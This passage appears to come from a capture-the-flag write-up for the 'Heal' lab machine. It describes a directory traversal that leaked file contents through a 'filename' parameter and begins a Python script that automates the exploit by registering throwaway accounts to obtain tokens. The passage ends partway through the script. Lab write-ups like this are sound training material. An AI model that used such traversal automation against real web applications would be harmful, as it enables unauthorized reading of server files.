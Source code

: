 ### File Disclosure Test

Adding directory traversal in addition to the file name into the `filename` parameter was successful and the web application returned the contents of the file. Below is a screenshot showing the results of the test.

![ecc6de5c2606d2b374058d13eb3533c3.png](/assets/img/ecc6de5c2606d2b374058d13eb3533c3.png)

# Automated File Disclosure

The below script was created and used to automate the file disclosure. The script will create a new account and retrieve a valid token before requesting the file. This method of creating new accounts with each request is reliable however it will flood the database with bogus entries. To improve upon this script it would be sensible to check if the account exists first and instead of registering it should return the token upon sign-in.

```python
import requests
import random
import string
import re
import sys

def generate_random_username(length=5):
    return ''.join(random.choices(string.ascii_lowercase, k=length))

def signup():
    url = "http://api.heal.htb/signup"
    random_username = generate_random_username()
    payload = {
        "username": random_username,
        "fullname": random_username,
        "email": f"{random_username}@heal.htb",
        "password": "password123"
    }
    
    # Make the POST request
    response = requests.post(url, json=payload)
    
    # Full response for debugging
    #print("Full Response:")
```